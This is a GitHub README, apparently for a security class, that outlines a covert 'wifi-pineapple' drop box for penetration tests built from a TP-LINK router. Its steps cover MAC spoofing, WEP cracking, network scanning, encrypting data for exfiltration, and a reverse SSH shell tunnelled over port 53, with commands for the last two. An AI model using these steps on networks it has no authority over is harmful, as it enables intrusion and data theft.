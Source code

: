 kolache
=======

Description
----
Create open source wifi-pineapple with the TP-LINK TL-WR703N

Installation/Build Instructions
----

Additional Info and Links
----
applications needed on router for dns exfil:

[dig] (https://hackucf.org/blog/hack-all-the-things-exfiltrating-data-via-dns-requests/)

[xxd] (http://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/)


1.) External drive will be encrypted. 

> http://oneitguy.com/blog/encrypted-remote-backup-openwrt

> https://dev.openwrt.org/ticket/10787

> http://gui-at.blogspot.com/2010/02/disk-encryption-in-openwrt.html

> http://sjoosten.nl/2013/06/luks-usb-stick.html

2.) Console into the router via Ethernet before 'drop off'.

2.1) Mount the SD card via SSH with encryption password. 

3.) Run a script that changes the device host name and mac address to something like an apple iphone/ipad or samsung android device. 

3.1) Set up the device for monitoring in a given number minutes.

4.) The WR-703N will scans for available wifi networks. It will find unencrypted wifi or WEP and crack them.
  
5.) Once on the target network, does an arp scan / nmap of hosts and other 'fun things' (Navy).

6.) The WR-703N will find its way to internet.

7.) The WR-703N will exfil some data. All data should be encrypted with openssl before exfiltration.

> tar -P -zcf - $dirname | openssl aes-128-cbc -out $dirname.tar.gz -k 1234

(tar/gzip everything in a given directory. AES-128 encrpt file. set the password to the file as "1234")


8.) The WR-703N will open a reverse SSH shell into the target network. 
> ssh -R 53:localhost:22 sourceuser@public ip

> tunnel through port 53 (because it it is normally unblocked)

> http://www.howtoforge.com/reverse-ssh-tunneling

9.) Lastly, win... (Navy/Russ)



Class Requirement:
----
>"Create a remotely C2ed attack pivot box (assume no inbound connections to the device via the targets network), in the smallest form factor possible, including common open source tools, and demonstrate at least 3 TTPs this device could provide"

>Bonus points for operator created tools!

>Narrative for requirement:

>A penetration tester gets access to an in scope building during a security audit.  They place this box inside the target network (wifi or hardline), and then leave.  They are then able to contact the box from their corporate office, allowing them to pivot into their clients network and conduct security testing without being hindered by the customers boundary protections.  
